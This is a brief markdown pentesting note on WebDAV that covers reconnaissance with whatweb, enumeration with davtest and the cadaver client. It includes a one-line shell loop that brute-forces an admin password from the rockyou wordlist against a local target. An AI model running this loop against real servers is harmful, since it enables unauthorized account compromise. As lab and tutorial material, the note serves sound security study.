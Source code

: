 # WebDAV
Tool to manage file and directories using a **web** server.
- Reconnaissance with `whatweb "http://127.0.0.1/" `.
- Use **davtest** to enumerate the *webDAV* server, which files are allowed, executable, etc. `davtest -url <URL> -auth <USER>:<PASSWORD>`.
- Script to do a *brute force* to get the password.
	```shell
	cat /usr/share/wordlists/rockyou.txt | while read password; do response=$(davtest -url http://127.0.0.1/ -auth admin:$password 2>&1 | grep -i succeed); if [ $response ]; then echo "Correct password: $password"; break ; fi; done
	```
- WebDAV **CLI** tool -> **cadaver** `cadaver http://127.0.0.1`.